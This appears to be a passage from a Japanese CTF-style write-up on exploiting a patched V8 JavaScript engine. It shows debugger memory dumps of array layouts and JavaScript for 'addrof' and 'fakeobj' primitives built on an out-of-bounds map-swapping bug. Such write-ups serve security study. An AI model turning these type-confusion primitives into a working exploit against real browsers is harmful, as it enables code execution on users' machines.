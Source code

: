 ```javascript
0x101fed78e380: 0x0000000100000000      0x000000e4ebf80801
0x101fed78e390: 0x0000000100000000      0x0000101fed78e301  <- elements[0]
0x101fed78e3a0: 0x00003cc433902f79      0x000000e4ebf80c71  <- elements[1] and element[2]
0x101fed78e3b0: 0x0000101fed78e389      0x0000000100000000
0x101fed78e3c0: 0x000000e4ebf80941      0x0000000400000003
0x101fed78e3d0: 0xdeadbeed29386428      0x000000e4ebf80941
0x101fed78e3e0: 0x00000016e68fa846      0x7250677562654425
pwndbg> 
*/

let float_map = float_arr.oob();
let obj_map = obj_arr.oob();

// addrof
function addrof(obj) {
    obj_arr[0] = obj;
    obj_arr.oob(float_map);

    let v = obj_arr[0];
    obj_arr.oob(obj_map);

    return f2i(v);
}

// fakeobj
// addr: address of array that includes float64 as bytes
function fakeobj(addr) {
    float_arr[0] = i2f(addr);
    float_arr.oob(obj_map);

    let fake = float_arr[0]
    float_arr.oob(float_map);

    return fake;
}

/*
$ ./d8 --shell --allow-natives-syntax exploit.js 
V8 version 7.5.0 (candidate)
d8> addrof(fake_arr)
46866547141369n
d8> %DebugPrint(fake_arr)
0x2a9ff7e4eaf9 <JSArray[4]>
[9.9, 10.1, 11.11, 12.12]
d8> 
pwndbg> x/16gx 0x2a9ff7e4eaf9-1
0x2a9ff7e4eaf8: 0x0000373223342ed9      0x00003a2520880c71
0x2a9ff7e4eb08: 0x00002a9ff7e4eac9      0x0000000400000000  <- elements and length(?)
0x2a9ff7e4eb18: 0x00003a2520880941      0x0000000400000003
0x2a9ff7e4eb28: 0x0000000029386428      0x00003a2520880941
0x2a9ff7e4eb38: 0x000000103a76c8b6      0x6628666f72646461
0x2a9ff7e4eb48: 0x297272615f656b61      0x00003a25208802d1
0x2a9ff7e4eb58: 0x0000000100000000      0x00002c43bde20303
0x2a9ff7e4eb68: 0x00003a2520880851      0x0000000400000000
pwndbg> x/16gx 0x2a9ff7e4eaf9-1-0x30
0x2a9ff7e4eac8: 0x00003a25208814f9      0x0000000400000000
0x2a9ff7e4ead8: 0x4023cccccccccccd      0x4024333333333333  <- elements[0] and elements[1]
0x2a9ff7e4eae8: 0x40263851eb851eb8      0x40283d70a3d70a3d
0x2a9ff7e4eaf8: 0x0000373223342ed9      0x00003a2520880c71
0x2a9ff7e4eb08: 0x00002a9ff7e4eac9      0x0000000400000000
0x2a9ff7e4eb18: 0x00003a2520880941      0x0000000400000003
0x2a9ff7e4eb28: 0x0000000029386428      0x00003a2520880941
0x2a9ff7e4eb38: 0x000000103a76c8b6      0x6628666f72646461
```

[^1]: gdbで`p/f 0x11c27c950589`を実行した
[^2]: 実際には浮動小数点数に変換して代入する